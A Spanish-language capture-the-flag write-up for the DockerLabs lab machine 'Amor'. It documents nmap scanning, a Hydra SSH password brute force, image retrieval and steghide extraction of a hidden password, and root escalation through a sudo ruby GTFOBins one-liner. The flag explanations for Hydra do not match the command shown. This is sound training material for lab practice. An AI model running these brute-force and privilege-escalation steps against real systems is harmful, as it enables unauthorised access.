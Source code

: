 # [Amor](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh amor.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que está abierto el puerto **22** y **80**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8563720d-b839-447e-988d-bb80300a4b67)

<br>
<br>

## Página Web (Puerto 80)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2`. Vemos que nos da varias vistas:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/ce9ba3fe-f606-47cc-8e14-9323006440a0)

Como por ejemplo, que un usuario tiene una contraseña débil y que existen dos posible usuarios `Juan` y `Carlota`.

<br>
<br>

## Hydra / Medusa

Una vez conocemos los posibles usuarios haremos un ataque de fuerza bruta al servicio ssh usando hydra en primer lugar, usaremos el usuario juan `hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-u` ⮞ nombre del posible usuario <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

<br>

No encontraríamos nada, por lo que haremos fuerza bruta al otro usuro (Carlota) de la siguiente forma `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`, en esta caso si que nos encontraría la contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd0fa07f-95cd-4dfd-8661-ab1c4dcecc44)

 > Podríamos usar un archivo el cual contenga los nombre de usuarios, pero en esta caso tardaría más en encontrarnos la contraseña siempre y cuando pongamos primero al usuario juan.

<br>
<br>

## SSH (Puerto 22)

Una vez conocemos el usuario y su contraseña probamos a entrar a la máquina Amor con `ssh carlota@172.17.0.2`, y a continuación nos pedirá la contraseña. <br>

> Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución. <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)

<br>
<br>

## Escalada de Privilegios

En este caso no será necesario el Tratamiento de la TTY con tan solo escribiendo bash ya tendremos una terminal cómoda. En todo caso el tratamiento sería así: <br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

<br>

Ejecutamos el comando `sudo -l` para ver que podemos ejecutar como sudo, pero no encontramos nada: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/59e0946c-7f69-430c-b586-a0ef4e31b6f0)

<br>

Al igual que si ejecutamos `find / -perm -4000 2>/dev/null` en búsqueda de permisos SUID no encontramos nada potencial para escalar privilegios. 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e2862f75-c832-4f97-be42-175ef81ccdf6)

`/` ⮞ buscamos desde la raíz <br>
`-perm -4000` ⮞ mostrar los permisos SUID <br>
`2>/dev/null` ⮞ para que no nos muestre los errores 

<br>

Si nos vamos a la siguiente ruta `/home/carlota/Desktop/fotos/vacaciones/imagen.jpg` dentro del directorio personal de **carlota** nos encontramos con una imagen, nos la llevamos a nuestra máquina de atacante montando un servidor http con python de la siguiente manera: `python3 -m http.server 555`.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c8c89ec2-e7a4-4532-a7f1-ff9757a29241)

<br>

Obtenemos dicha imagen, con el siguiente comando desde nuestra máquina de atacante `wget 172.17.0.2:555/imagen.jpg`
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/8f146058-f302-4061-9149-8d875a340341)

<br>
<br>

### Estenografía

Pasamos a analizar los metadatos de la imagen, para ver si tiene algo oculto, usaremos el siguiente comando: `steghide extract -sf imagen.jpg`, nos pedirá una passphrase pero le damos al enter, y obtendremos un archivo `secret.txt` el cual contendrá el siguiente contenido:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/bc96bdef-8057-447b-9f64-59837d284d5b)

<br>

Parece que tiene una cadena de texto en base64 por lo que pasaremos a decodificarla con el siguiente comando `cat secret.txt`, y obtendremos lo que parece una contraseña:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/f8ae1f7a-bed5-4212-81fa-812845870ba8)

<br>

Probamos a autenticarnos como oscar con el siguiente comando `su oscar` -> introducimos la contraseña y ya seremos oscar y escribimos `bash` para ejecutar una terminal de bash en ves de una sh:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/56d202b6-f64c-43cf-b580-ce4585832cbc)

<br>

Seguimos el mismo procedimiento de antes, ejecutando el comando `sudo -l` y los reporta lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d70b5646-7f76-4925-9d37-fad3361ff03e)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en ruby, y nos encontramos con lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/804e3fcd-5f15-44fa-8c3c-ed073e80517d)

<br>

Por lo cual ejecutaremos lo siguiente `sudo -u root ruby -e 'exec "/bin/bash"'`, y listo ya seremos root:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/1716e422-11bc-4ec8-a191-49db425e1f1b)
